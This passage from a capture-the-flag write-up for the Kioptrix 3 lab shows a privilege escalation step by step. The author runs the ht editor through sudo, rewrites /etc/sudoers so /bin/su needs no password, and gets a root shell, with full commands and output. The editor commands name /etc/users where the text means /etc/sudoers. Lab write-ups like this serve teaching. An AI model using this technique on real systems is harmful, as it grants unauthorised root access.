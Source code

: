 It's_** /etc/sudoers**_.  
  
Be extremely careful while editing the sudoers file, saving it in bad format
might break stuff and make you unable to use the su command. How do I know?
Because I broke my VM, _twice_..  
  
First, you might need to update the environment variable TERM.  
  

    
    
    loneferret@Kioptrix3:~$ sudo ht /etc/users  
    Error opening terminal: xterm-256color.  
    loneferret@Kioptrix3:~$ export TERM=xterm
    
    
    loneferret@Kioptrix3:~$ sudo ht /etc/users 

  
Next, change mode to text by pressing F6, you'll notice the following line:  
  

    
    
    loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht  
    

  
We can simply replace the "!" by a space (0x20), so running /usr/bin/su gives
us root.  
  

    
    
    loneferret@Kioptrix3:~$ sudo /usr/bin/su  
    [sudo] password for loneferret:   
    sudo: /usr/bin/su: command not found  
    loneferret@Kioptrix3:~$ which su  
    /bin/su  
    

  
Oh, no wonder it didn't work. su is under /bin/su, not /usr/bin/su...  
Final edit makes /etc/sudoers file contain:  
  

    
    
    loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht  
    

  

    
    
    loneferret@Kioptrix3:~$ sudo /bin/su  
    root@Kioptrix3:/home/loneferret# whoami  
    root  
    

  
It worked! We got root! Where is our flag?  
  

    
    
    root@Kioptrix3:/home/loneferret# cd /root  
    root@Kioptrix3:~# ls -al  
    total 52  
    drwx------  5 root root  4096 2011-04-17 08:59 .  
    drwxr-xr-x 21 root root  4096 2011-04-11 16:54 ..  
    -rw-------  1 root root     9 2011-04-18 11:49 .bash_history  
    -rw-r--r--  1 root root  2227 2007-10-20 07:51 .bashrc  
    -rw-r--r--  1 root root  1327 2011-04-16 08:13 Congrats.txt  
    drwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18  
    -rw-------  1 root root   963 2011-04-12 19:33 .mysql_history  
    -rw-------  1 root root   228 2011-04-18 11:09 .nano_history  
    -rw-r--r--  1 root root   141 2007-10-20 07:51 .profile  
    drwx------  2 root root  4096 2011-04-13 10:06 .ssh  
    drwxr-xr-x  3 root root  4096 2011-04-15 23:30 .subversion  
    root@Kioptrix3:~# cat Congrats.txt   
    Good for you for getting here.  